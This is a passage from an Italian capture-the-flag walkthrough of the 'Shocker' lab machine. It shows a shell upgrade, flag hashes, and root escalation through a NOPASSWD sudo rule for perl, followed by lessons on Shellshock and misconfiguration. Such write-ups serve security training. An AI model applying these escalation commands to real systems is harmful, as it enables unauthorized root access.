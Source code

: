 Upgrade della shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256colo
```

Flags User:
```bash
shelly@Shocker:/home/shelly$ cat user.txt 
68196ee0cb620a8b119b3c47d999e392
```

# PRIVESC

lanciamo un sudo -l per vedere cosa possiamo eseguire come sudo:

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ 
```

perl ha un'opzione -e che mi consente di eseguire Perl dalla riga di comando. 
Ha anche un comando exec che eseguirà i comandi della shell. 

Mettendo tutto insieme, posso eseguire bash come root:
```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/home/shelly# 
```

Flag root:

```bash
root@Shocker:~# cat root.txt 
bc6caad0168dcf317ef739aa79e93bab
```
 
# LEZIONI IMPARATE 

Per quanto riguarda le vulnerabilità, ne ho contate tre. 

1. Il primo è un errore di configurazione insicuro del server web. Non mi è stato permesso di accedere alla directory /cgi-bin ma per qualche motivo mi è stato permesso di accedere al file user.sh all'interno di quella directory. L'amministratore dovrebbe avere accesso limitato a tutti i file nella directory.
2. La seconda vulnerabilità è che il server Web stava eseguendo comandi bash su un sistema che eseguiva una versione di Bash vulnerabile alla vulnerabilità Shellshock. Questo ci ha permesso di ottenere l'accesso iniziale al sistema. Ovviamente è disponibile una patch e l'amministratore dovrebbe aver corretto il suo sistema.
4. La terza vulnerabilità è la configurazione del sistema non sicura. Dovresti sempre conformarti al principio del privilegio minimo e al concetto di separazione dei privilegi. Dare all'utente l'accesso sudo per eseguire perl, ha permesso a me (l'attaccante) di aumentare i privilegi.
